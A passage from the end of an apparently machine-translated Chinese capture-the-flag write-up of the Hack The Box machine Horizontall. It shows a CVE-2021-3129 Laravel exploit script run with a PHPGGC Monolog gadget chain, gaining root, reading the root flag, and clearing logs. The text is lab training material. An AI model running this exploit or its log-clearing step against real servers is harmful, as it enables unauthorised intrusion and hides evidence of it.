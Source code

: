 ```
remote: Compressing objects: 100% (528/528), done.
remote: Total 2598 (delta 379), reused 822 (delta 287), done.
Receiving objects: 100% (2598/2598), 390.29 KiB | 540.00 KiB/s
Resolving deltas: 100% (1021/1021), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

# 根标志

这很好也很简单。漏洞运行并给了我们根 id。让我们抓住旗子:

```
┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# ./exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

a<HIDDEN>6

[i] Trying to clear logs
[+] Logs cleared
```

那是一个有趣的盒子，我希望你喜欢它。

下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—【https://twitter.com/pencer_io】T4
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 1 月 30 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-horizontall)*。*

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)